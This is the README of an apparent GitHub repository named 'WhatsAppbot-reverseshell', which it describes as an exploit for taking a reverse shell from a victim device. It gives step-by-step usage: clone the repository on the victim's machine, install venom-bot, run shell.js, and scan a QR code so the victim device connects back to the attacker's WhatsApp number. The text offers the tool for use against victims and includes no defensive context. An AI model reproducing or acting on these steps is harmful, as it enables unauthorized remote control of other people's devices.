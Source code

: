 # WhatsAppbot-reverseshell
This exploit can be used for taking reverse shell from victim device to WhatsApp bot
how to use 
take victim device and in victim device command prompt clone this repository 
and type this commands 
$npm install venom-bot 
$node shell.js
scan the qr code using your WhatsApp 
now you got the reverse shell connection from victim device to your WhatsApp number 
